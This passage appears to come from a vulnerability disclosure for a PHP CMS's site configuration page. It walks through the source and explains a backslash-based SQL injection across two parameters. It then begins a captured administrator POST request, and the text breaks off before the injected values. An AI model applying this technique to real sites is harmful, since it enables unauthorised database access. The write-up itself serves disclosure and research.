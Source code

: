 ```

Line 283 determines if the token is valid.

![70.png](./img/70.png)

Lines 285-290 get the value of $dDefault.

![71.png](./img/71.png)

Line 318 passes $dDefault to call the dbQU function for database query:

![72.png](./img/72.png)

Since we can control multiple parameters in the SQL statement, let the first parameter take \, the value will comment out the " after the statement, so that the second parameter can be injected.

After the administrator logs in,visit ```http://domain.com/dg-user/?controller=configuration&action=siteweb```
Then click "Save" and capture the package, modify the values of "configuration_siteweb_title" and "configuration_siteweb_slogan" as follows:
```
POST /dg-user/?controller=configuration&action=siteweb HTTP/1.1
Host: 127.0.0.1:8003
Connection: keep-alive
Content-Length: 2741
Pragma: no-cache
Cache-Control: no-cache
Origin: http://127.0.0.1:8003
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarywNHfnN6qoADnI3Pw
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://127.0.0.1:8003/dg-user/?controller=configuration&action=siteweb
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=6laloptc1mdug324doe9j3g1n6

------WebKitFormBoundarywNHfnN6qoADnI3Pw
Content-Disposition: form-data; name="configuration_siteweb_token"

320055ca31c832cc7e5.41347850
------WebKitFormBoundarywNHfnN6qoADnI3Pw
Content-Disposition: form-data; name="configuration_siteweb_statut"

1
------WebKitFormBoundarywNHfnN6qoADnI3Pw
Content-Disposition: form-data; name="configuration_siteweb_statut_ip"


------WebKitFormBoundarywNHfnN6qoADnI3Pw
Content-Disposition: form-data; name="configuration_siteweb_statut_tinymce"
